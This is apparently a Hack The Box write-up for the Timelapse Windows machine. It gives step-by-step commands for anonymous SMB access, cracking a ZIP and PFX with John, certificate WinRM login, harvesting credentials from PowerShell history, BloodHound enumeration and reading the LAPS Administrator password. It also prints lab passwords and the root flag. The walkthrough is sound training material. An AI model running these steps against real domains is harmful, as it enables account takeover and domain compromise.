



# Hack The Box - Timelapse



Timelapse is an Easy Windows machine built around an anonymous SMB share, cracked archive passwords, certificate-based WinRM access, and LAPS abuse. The full path is: recover a PFX from the share, log in as `legacyy`, extract `svc_deploy` credentials from PowerShell history, and use LAPS to become `Administrator`.

## Reconnaissance

I started with network scanning to identify the domain controller and exposed services. The host was `DC01.timelapse.htb` in the `timelapse.htb` domain, with SMB, LDAP, Kerberos, and WinRM over TLS on 5986.

```bash
cme smb 10.10.11.152 -u 'a' -p ''
nmap -sVC -p- -T4 -Pn -vv -oA Timelapse 10.10.11.152
echo '10.10.11.152 DC01.timelapse.htb timelapse.htb' | sudo tee -a /etc/hosts
```

The scan also showed SMB signing required and a clock skew of about 8 hours, which is useful later for Kerberos-aware operations.

## SMB Share

Anonymous access to SMB was available, and the `Shares` share contained two folders: `Dev` and `HelpDesk`. The important file was `Dev/winrm_backup.zip`.

```bash
smbclient //timelapse.htb/Shares -U "a%"
```

I downloaded the archive and confirmed it was password-protected.

## Zip and PFX

### Crack the ZIP

I converted the ZIP to a John-friendly hash and cracked it with `rockyou.txt`.

```bash
zip2john winrm_backup.zip > zip.hash
john zip.hash --wordlist=/opt/wordlists/rockyou.txt
```

The ZIP password was:

```text
supremelegacy
```

After extraction, the archive yielded `legacyy_dev_auth.pfx`.

### Crack the PFX

The PFX file was also protected, so I converted it with `pfx2john` and cracked that too.

```bash
pfx2john legacyy_dev_auth.pfx > pfx.hash
john pfx.hash --wordlist=/opt/wordlists/rockyou.txt
```

The PFX password was:

```text
thuglegacy
```

I then extracted the private key and certificate:

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -out private.key -nodes -nocerts
openssl pkcs12 -in legacyy_dev_auth.pfx -out public.key -nodes -nokeys
```

## WinRM Access

The machine exposed WinRM over SSL on 5986, so I connected with the certificate and key.

```bash
evil-winrm -i timelapse.htb -S -c public.key -k private.key
```

That gave a shell as:

```text
timelapse\legacyy
```

I then read the user flag from the desktop.

## PowerShell History

I used WinPEAS and inspected PowerShell history.

```powershell
cat $env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

The history contained credentials for `svc_deploy`:

```text
svc_deploy : E3R$Q62^12p7PLlC%KWaxuaV
```

This was the key pivot into the next stage.

## BloodHound

I collected domain data with BloodHound to see what `svc_deploy` could do.

```bash
cme ldap timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' --bloodhound -c all -ns 10.10.11.152
```



BloodHound showed that `svc_deploy` was a member of the `LAPS_Readers` group. That group could read LAPS passwords from domain computers, including the domain controller.



## LAPS Abuse

Since `svc_deploy` had LAPS read access, I queried the DC for the local Administrator password.

```powershell
Get-ADComputer DC01 | select name,"ms-mcs-admpwd"
```

That revealed the Administrator password:
`
```text
I07M052Ic-/96-5#lt2r+F@K
```

I used that password to authenticate as `Administrator`.

## Final Access

With the LAPS password, I connected as Administrator and retrieved the root flag.

```bash
cme smb timelapse.htb -u 'Administrator' -p 'I07M052Ic-/96-5#lt2r+F@K' -x 'type C:\Users\TRX\Desktop\root.txt'
```

The root flag was:

```text
46af9877edd8e250a6ca1a95786f7d7e
```

## Attack Path

- **Enumerate SMB** — find the `Shares` share.
- **Crack ZIP** — recover the archive password.
- **Crack PFX** — recover the certificate password.
- **Log in with WinRM** — access `legacyy` via certificate auth.
- **Read PowerShell history** — extract `svc_deploy` credentials.
- **Use BloodHound** — identify `LAPS_Readers`.
- **Dump LAPS** — retrieve the local Administrator password. 
- **Become Administrator** — obtain the root flag. 
